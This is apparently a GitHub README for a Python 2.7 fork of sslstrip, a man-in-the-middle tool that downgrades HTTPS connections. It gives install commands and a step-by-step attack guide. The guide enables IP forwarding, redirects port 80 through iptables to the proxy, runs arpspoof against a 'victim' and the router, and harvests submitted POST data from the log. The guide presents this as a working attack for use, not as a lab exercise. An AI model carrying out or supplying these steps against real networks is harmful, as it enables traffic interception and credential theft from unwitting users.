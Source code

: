 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
git clone https://github.com/juanelas/sslstrip.git
cd sslstrip
sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the  command-line options.

```text
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   `echo "1" > /proc/sys/net/ipv4/ip_forward`

   > If you want to make this change persist after reboot, in Debian-like distros just uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with `sudo sysctl -p`

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>`

   `sslstrip -l <yourListenPort>`

3) Setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   `sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>`

5) Run `arpspoof` to redirect all traffic from your victim to the Internet to your machine:

   `arpspoof -i <yourNetworkdDevice> -t <victimIpAddress> <routerIpAddress>`

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros you can install it with `apt update && apt install dsniff`

6) Start a network sniffer (e.g. wireshark, tcpdump) or directly look for HTTP posts in the sslstrip log file (`sslstrip.log` by default)

